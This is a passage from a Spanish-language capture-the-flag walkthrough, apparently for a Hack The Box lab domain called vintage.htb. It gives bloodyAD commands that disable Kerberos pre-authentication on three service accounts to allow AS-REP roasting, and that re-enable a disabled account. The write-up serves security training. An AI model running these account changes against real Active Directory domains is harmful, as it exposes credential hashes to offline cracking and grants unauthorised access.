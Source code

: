 <figure><img src="../../../.gitbook/assets/2729_vmware_eU1xLKwzv2.png" alt=""><figcaption></figcaption></figure>

Procederemos a establecer con **bloodyAD** para que los 3 usuarios sean susceptibles al **AS-REP Roast Attack** y procederemos a activar nuevamente al usuario (svc\_sql@vintage.htb) a través de los siguientes comandos.

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_ARK' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_LDAP' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_SQL' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k remove uac 'SVC_SQL' -f ACCOUNTDISABLE
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
